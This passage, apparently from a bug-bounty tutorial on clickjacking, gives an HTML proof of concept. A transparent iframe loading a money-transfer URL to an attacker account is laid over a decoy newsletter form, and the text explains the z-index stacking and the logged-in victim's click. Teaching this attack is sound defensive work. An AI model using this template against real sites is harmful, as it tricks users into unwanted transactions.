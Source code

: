 Take a look at this HTML page, for example:

```jsx
<html>
 <style>
 #victim-site {
 width:500px;height:500px;
 **1** opacity:0.00001; //We then make the iframe invisible
 2 z-index:1;
 }
 #decoy {
 3 position:absolute;width:500px;height:500px; //here we make the embeded page with the real one 
 4 z-index:-1;
 }
 </style>
 <div id="decoy">
 <h3>Welcome to my site!</h3>
 <h3>This is a cybersecurity newsletter that focuses on bug bounty news and write-ups! Please subscribe to my newsletter below to receive new cybersecurity articles in your email inbox!</h3>
 <form action="/subscribe" method="post">
 <label for="email">Email:</label>
 5 <br>
 <input type="text" id="email" value="Please enter your email!">
 6 <br><br>
 <input type="submit" value="Submit">
 </form>
 </div>
 <iframe id="victim-site"
 src="https://www.example.com/transfer_money? 
 recipient=attacker_account_12345&amount=5000" 
 width="500" height="500">
 </iframe>
</html>
```

The z-index sets the stack order of different HTML elements. If two HTML elements overlap, the one with the highest z-index will be on top.

The embeded iframe page without CSS will be like :

![image](https://user-images.githubusercontent.com/70459751/179781860-2135dfd1-c7e0-4286-889a-60b8f4e9dae8.png)

And With CSS will be :

![image](https://user-images.githubusercontent.com/70459751/179781887-2e13e846-5ea0-4bba-887c-65e16b348abe.png)

If the user logged in the bank site he will be loggin into the iframe page too, the request that made by the iframe will be succeed and the transacion will be succedd to.

---

# `Hunting for Clickjacking`
